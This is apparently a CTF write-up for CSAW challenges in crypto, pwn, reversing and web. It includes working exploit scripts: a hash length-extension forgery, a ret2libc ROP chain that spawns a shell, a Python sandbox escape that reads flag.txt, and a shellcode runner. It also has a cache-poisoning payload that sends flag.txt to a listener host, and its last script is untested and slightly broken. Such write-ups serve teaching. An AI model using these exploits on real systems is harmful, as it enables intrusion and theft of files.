

### Crypto

#### Perfect Secrecy

A beginner challenge focuses on forensics rather cryptography.  Two images were given and we needed to retrieve the flag based on those. With the challenge involving images, we always check them with stenography tools as the flag can be hidden inside the image. We used `stegsolve` - a common stegnography tool used in CTFs to combine two images. The first image is loaded into stegsolve, and then `Analyse > Combiner` to fetch the second image. The result shows immediately after combining. It turned out that stegsove used XOR bitwise operation on the images to get the flag.




#### modus_operandi

A crypto and (mostly) scripting challenge. When connect to the challenge remotely, we get a description of
```
Hello! For each plaintext you enter, find out if the block cipher used is ECB or CBC. Enter "ECB" or "CBC" to get the flag!
```
And then we have to provide a plaintext, which is encrypted with either ECB or CBC mode, and we have to answer which mode was used for the encryption.

From [Wiki page](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation) about different block cipher modes for encryption, ECB encrypts the plaintext block by block. That means ... if the plaintext is divided into multiple blocks, any blocks that have the same text will get encrypted the same way, hence the cipher text blocks are the same. Whereas CBC uses the result of the previous block to XOR with the current block to encrypt it, that means the ciphertext blocks would not be the same.

Knowing this, and since we provide the plaintext, we can simply give a plaintext that can be broken up into identical blocks, and check the encrypted result. If there are identical ciphertext blocks then it is ECB, else it is CBC.

After answering around 176 times, the server suddenly closes connection. At first I thought this was a bug or something, or if my script runs too slow which causes timeout or connection close. On inspection (after running the scripts a couple more time) the result is the same, there is no flag and the server closes after answering correctly 176 times. Hmm something is weird here, maybe the flag is the key used in the encryption? But there are too little information, and only 176 times would not help us bruteforce the key value. Then I thought, why do I only have 2 options to answer? I take a closer look and it seems the script answers the same way everytime! Maybe the way it answers can give the flag? Some sort of binary string or morse code (or any encoding method that only has 2 values).

After testing out my theory, I got the flag by constructing a binary string, where `0` is when I answer ECB and `1` is for CBC. And convert that string to text yields the flag!

Final script:
```
#!/usr/bin/env python3

from pwn import *

p = remote('crypto.chal.csaw.io', 5001)
p.recvline()
string = ""
i = 0
while True:
    line = p.recvline()
    if b'plaintext' not in line: # check whether we don't have the same response
        print(line)
        break
    payload = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
    p.sendline(payload)
    p.recvuntil('Ciphertext is:  ')
    cipher = p.recvline().strip()
    print(cipher)
    p.recvline()
    if cipher[:32] == cipher[32:64]:
        p.sendline('ECB')
        string += '0'
    else:
        p.sendline('CBC')
        string += '1'
    i += 1
    if i == 176: break
    print("Done " + str(i))

p.interactive()
print(string)
# 01100110011011000110000101100111011110110100010101000011010000100101111101110010011001010100000001101100011011000111100101011111011100110101010101100011011010110010010001111101
print(int(string, 2))
print(hex(int(string, 2)))
# 0x666c61677b4543425f7265406c6c795f7355636b247d
print(bytes.fromhex(hex(int(string, 2))[2:]))
# b'flag{ECB_re@lly_sUck$}'
```

#### authy

A crypto challenge on length extension attack!

[HashPump](https://github.com/bwall/HashPump): a tool to assist with length extension attack (use the python module in the script)

Final script
```
#!/usr/bin/env python3

import requests, base64, hashpumpy

host = "http://crypto.chal.csaw.io:5003"

def new(author, note):
    payload={'author': author, 'note': note}
    print("makig new note with payload={}".format(payload))
    r = requests.post('{}/new'.format(host), data=payload)
    return r.text

def parse_resp(resp):
    return resp.split(' ')[2].split(':')[0].strip(), resp.split(' ')[2].split(':')[1].strip()

def view(id, integrity):
    payload={'id': id, 'integrity': integrity}
    print("viewing note with payload={}".format(payload))
    r = requests.post('{}/view'.format(host), data=payload)
    return r.text
author = 'aa'
note = 'lol&admin=True&access_sensitive=True'
my_id, my_int = parse_resp(new(author, note))
print(view(my_id, my_int))

i = 2
while True:
    new_int, new_data = hashpumpy.hashpump(my_int, 'admin=False&access_sensitive=False&author={}&note={}&entrynum=783'.format(author, note), '&entrynum=7', i)
    new_data = new_data.decode('unicode-escape').encode('unicode-escape')
    new_id = base64.b64encode(new_data).decode()
    print("new_int={}".format(new_int))
    print("new_data={}".format(new_data))
    print("new_id={}".format(new_id))
    resp = view(new_id, new_int)
    if '>:(' in resp: i += 1
    else:
        print(i, resp)
        break
# i = 13, flag{h4ck_th3_h4sh}
```

### Pwn

#### roppity

A basic 64-bit ret2libc challenge! By using rop, we can read the content of GOT table, which contains libc addresses of functions used in the binary (for instance by calling `puts(puts)` to print out its own function). And from the libc file provided along, we can take the offset from the function to get libc base address, and offset to `system('/bin/sh')` to pop a shell.

However, there are some differences in 32 and 64-bit function calling convention. Instead of pushing function arguments on the stack, 64-bit binary loads the arguments into certain registers first, if all registers are used then it pushes remaining arguments on the stack. So we need to find rop gadgets to help us load arguments for the functions (I used [ropper](https://github.com/sashs/Ropper)).

Lastly ... there is this weird address alignment for calling `system()`, which requires a `ret` before popping the shell (a [stackoverflow discussion](https://stackoverflow.com/questions/60729616/segfault-in-ret2libc-attack-but-not-hardcoded-system-call)). Once you pop the shell ... just grab flag :D (and please don't try to mess around on the server)

Final script
```
#!/usr/bin/env python3

from pwn import *

p = remote("pwn.chal.csaw.io", 5016)
elf = ELF("./rop")
libc = ELF("./libc-2.27.so")
"""
use ropper to find gadget:

ropper -f rop --search 'pop rdi'
0x0000000000400683: pop rdi; ret;

ropper -f rop --search 'ret'
0x000000000040048e: ret;
"""
pop_rdi = 0x400683
ret = 0x40048e
print(p.recvline())
exploit = b"a" * 40 + p64(pop_rdi) + p64(elf.got["puts"]) + p64(elf.symbols["puts"]) + p64(elf.symbols.main)
p.sendline(exploit)
leaked = p.recvline().strip(b'\n') + b'\x00\x00' # 8 byte align address
print(leaked, len(leaked))
puts_leak = u64(leaked)
log.info("puts libc is {}".format(hex(puts_leak)))
libc_base = puts_leak - libc.symbols.puts
system_addr = libc_base + libc.symbols.system
binsh_str = libc_base + next(libc.search(b"/bin/sh"))
log.info("got system at {}".format(hex(system_addr)))
log.info("got /bin/sh at {}".format(hex(binsh_str)))

exploit = b"a" * 40 + p64(pop_rdi) + p64(binsh_str)+ p64(ret) + p64(system_addr)
p.sendline(exploit)
p.interactive()

# flag{r0p_4ft3r_r0p_4ft3R_r0p}
```

#### slithery

A Python jail challenge with some filtering inputs. We are given a `sandbox.py` file which reads from input and check for any blacklist words occur, if not it is executed in a python script with 1 module imported. After parsing the script we have the following:
```
#!/usr/bin/env python3
from base64 import b64decode
import blacklist  # you don't get to see this :p

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist.BLACKLIST]):
                raise Exception("not allowed!!")

            final_cmd = """
_file = open("sandbox.py", "r")
pos = int(((54 * 8) / 16) * (1/3) - 8) # 1
line = _file.readlines()[pos].strip().split(" ")
package = line[pos] # base64
module = line[-pos] # b64decode
_file.close()
attr = getattr(__import__(package), module) # b64decode
res = __builtins__.__dict__['__import__']('numpy')\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

The goal is to pop a shell and gain control on the server. However certain words are blacklisted such as `import`, `eval`, `open`, `exec`, `from`, `read`, `os`, `execfile`, `system`, `platform`, `__builtins__`, `pos`, `dir` (basically all common modules/methods to pop a shell in python :((  )

However ... we can still reference modules and functions in the current python instance, by going top down from the `object` class!

Use the payload `print(object.__subclasses__())` to print out all the subclasses of `object` class. There was no class to run command or spawn process (like `Popen`), but I noticed that there were some classes which could be useful for us to load and read files. In the end I managed to use the `FileLoader` class to load file contents.

Payload to read flag:
```
a = object.__subclasses__()[94](fullname='./flag.txt', path='./flag.txt')
print(a.get_data('./flag.txt'))
```

### Rev

#### baby_mult

A simple reversing challenge. We were given a weird file containing some random numbers :v . But since this is a reversing challenge ... I immediately thought of binary machine codes (and also saw some similar opcodes in there so my hunch said so).

I took these opcodes and put it over a disassembler (like this [online tool](https://onlinedisassembler.com/odaweb/)), choose 64-bit `i386-x86_64` platform and voila, some weird assembly code appears! And it looks like valid function. Since we didn't have much time to play the CTF so ... why don't we just run this first? And that's what I did :p

```
#include <stdio.h>

int main(void) {
    char code[] = "\x55\x48\x89\xe5\x48\x83\xec\x18\x48\xc7\x45\xf8\x4f\x0\x0\x0\x48\xb8\x15\x4f\xe7\x4b\x1\x0\x0\x0\x48\x89\x45\xf0\x48\xc7\x45\xe8\x4\x0\x0\x0\x48\xc7\x45\xe0\x3\x0\x0\x0\x48\xc7\x45\xd8\x13\x0\x0\x0\x48\xc7\x45\xd0\x15\x1\x0\x0\x48\xb8\x61\x5b\x64\x4b\xcf\x77\x0\x0\x48\x89\x45\xc8\x48\xc7\x45\xc0\x2\x0\x0\x0\x48\xc7\x45\xb8\x11\x0\x0\x0\x48\xc7\x45\xb0\xc1\x21\x0\x0\x48\xc7\x45\xa8\xe9\x65\x22\x18\x48\xc7\x45\xa0\x33\x8\x0\x0\x48\xc7\x45\x98\xab\xa\x0\x0\x48\xc7\x45\x90\xad\xaa\x8d\x0\x48\x8b\x45\xf8\x48\xf\xaf\x45\xf0\x48\x89\x45\x88\x48\x8b\x45\xe8\x48\xf\xaf\x45\xe0\x48\xf\xaf\x45\xd8\x48\xf\xaf\x45\xd0\x48\xf\xaf\x45\xc8\x48\x89\x45\x80\x48\x8b\x45\xc0\x48\xf\xaf\x45\xb8\x48\xf\xaf\x45\xb0\x48\xf\xaf\x45\xa8\x48\x89\x85\x78\xff\xff\xff\x48\x8b\x45\xa0\x48\xf\xaf\x45\x98\x48\xf\xaf\x45\x90\x48\x89\x85\x70\xff\xff\xff\xb8\x0\x0\x0\x0\xc9\xc3";
    void (*func) () = (void *) code;
    printf("Start\n");
    func();
    return 0;
}
```

Compile it with `gcc -z execstack` flag to be able to run code on the stack.

I tried to run the binary ... but it didn't show anything useful. So I headed to `gdb` and checked what was happening. After digging around, the program tried to reference some memory on the stack, so ... I just dumped the content from that memory after executing all those binary codes and got the flag!

### Web

#### flask_caching

This is a very interesting challenge relating to cache poisoning! There is a web server that lets you upload file under some title value. The server will then stores the file content inside a redis cache, and the title inputted is the key. Also, there are 30 other open endpoints labeled from `/test0` to `/test30`, which calls a cache function `_test0` (and other numbers for other endpoints) and only returns the text `test` back to us.

Hmmm ... seems like we had to do something which those cache functions? My initial thought was ... maybe we could somehow overwrite those cache functions with our own uploaded content, so the server would execute our code instead and give us flag. But I didn't know the keys for those functions in the cache! Well, I just ran the server locally on my machine :p  and dumped out all the keys in the redis cache whenever I hit those endpoints. And by convention (if not specified) the key for cache function has the form of `flask_cache_view//test0`. Awesome, so I just needed my python function to overwrite the `_test0()` ones. First I just blindly uploaded this python file (and other variations, like not putting the code inside a function) as is:
```
def _test0():
    import requests
    return requests.get('/my/request/listener/host/'+open('flag.txt','r').read())
```

But I got nothing :( After checking it locally, it seemed like I only uploaded text string, not actual python code for the server to execute! Then I looked up on how the cache stores the value, and found the [source code](https://github.com/sh4nks/flask-caching/blob/master/flask_caching/backends/rediscache.py) on GitHub. And I realised I wasn't using the right format, as it uses `pickle` module to serialise input to store into the cache, and deserialise it when reading the value from cache.

I then made my own script to compile my python code, serialise and store it in a file called `test.pyc` as such:
```
import pickle, sys, py_compile

pyc = py_compile.compile(sys.argv[1])
a = open(pyc, 'rb').read()

with open('test.pyc', 'wb') as out:
    out.write(b'!' + pickle.dumps(a))
```

But still it did not execute my code! It still stored my payload as a string ... At this point I did not know what to do, and it felt like I was very close. Since nothing worked, I thought I hit a deadend and stopped. Only to realise after the CTF ended that ... I should have serialised the python function when python runs, not a python file or bytecode file! Something like this:

```
import pickle, sys, py_compile

def _test0():
    import requests
    return requests.get('/my/request/listener/host/'+open('flag.txt','r').read())

with open('test.pyc', 'wb') as out:
    out.write(b'!' + pickle.dumps(_test0_))
```

After uploading the `test.pyc` file with title `flask_cache_view//test0`, we could then visit `/test0` endpoint which should trigger our payload and give us the flag.

Even though we couldn't get the flag, this challenge was really fun, and I got to read on redis for the first time and see how caching works for web server!
